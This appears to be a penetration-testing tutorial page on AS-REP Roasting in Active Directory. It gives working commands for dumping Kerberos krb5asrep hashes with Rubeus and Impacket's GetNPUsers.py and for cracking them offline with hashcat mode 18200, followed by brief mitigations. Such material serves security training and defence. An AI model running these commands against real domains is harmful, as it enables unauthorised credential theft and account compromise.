 # AS-REP Roasting with Rubeus/GetNPUsers.py

### **Introduction**

Very similar to Kerberoasting, AS-REP Roasting dumps the krbasrep5 hashes of user accounts that have Kerberos pre-authentication disabled. Unlike Kerberoasting these users do not have to be service accounts the only requirement to be able to AS-REP roast a user is the user must have pre-authentication disabled.

We'll continue using Rubeus same as we have with kerberoasting and harvesting since Rubeus has a very simple and easy to understand command to AS-REP roast and attack users with Kerberos pre-authentication disabled. After dumping the hash from Rubeus we'll use hashcat in order to crack the krbasrep5 hash.

There are other tools out as well for AS-REP Roasting such as kekeo and Impacket's GetNPUsers.py. Rubeus is easier to use because it automatically finds AS-REP Roastable users whereas with GetNPUsers you have to enumerate the users beforehand and know which users may be AS-REP Roastable.

***

### **AS-REP Roasting Overview**

During pre-authentication, the users hash will be used to encrypt a timestamp that the domain controller will attempt to decrypt to validate that the right hash is being used and is not replaying a previous request. After validating the timestamp the KDC will then issue a TGT for the user. If pre-authentication is disabled you can request any authentication data for any user and the KDC will return an encrypted TGT that can be cracked offline because the KDC skips the step of validating that the user is really who they say that they are.

***

### **Dumping KRBASREP5 Hashes with Rubeus**

1. `cd Downloads` - navigate to the directory Rubeus is in
2. `Rubeus.exe asreproast` - This will run the AS-REP roast command looking for vulnerable users and then dump found vulnerable user hashes.

<figure><img src="../../../../../../../../.gitbook/assets/image (41).png" alt=""><figcaption></figcaption></figure>

### **Dumping KRBASREP5 Hashes with Impacket's GetNPUsers.py**

Impacket has a tool called "GetNPUsers.py" (located in impacket/examples/GetNPUsers.py) that will allow us to query ASReproastable accounts from the Key Distribution Center. The only thing that's necessary to query accounts is a valid set of usernames which we enumerated previously via Kerbrute.

#### Check ASREPRoast for all domain users (credentials required)

```
python GetNPUsers.py <domain_name>/<domain_user>:<domain_user_password> -request -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file>
```

#### Check ASREPRoast for a list of users (no credentials required)

```
python GetNPUsers.py <domain_name>/ -usersfile <users_file> -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file>
```

***

### **Crack those Hashes with hashcat**

1. Transfer the hash from the target machine over to your attacker machine and put the hash into a txt file
2. Insert 23$ after $krb5asrep$ so that the first line will be $krb5asrep$23$User.....
3. `hashcat -m 18200 hash.txt Pass.txt` - crack those hashes! Rubeus AS-REP Roasting uses hashcat mode 18200

<figure><img src="../../../../../../../../.gitbook/assets/image (64).png" alt=""><figcaption></figcaption></figure>

### **AS-REP Roasting Mitigations**

* Have a strong password policy. With a strong password, the hashes will take longer to crack making this attack less effective
* Don't turn off Kerberos Pre-Authentication unless it's necessary there's almost no other way to completely mitigate this attack other than keeping Pre-Authentication on.

***
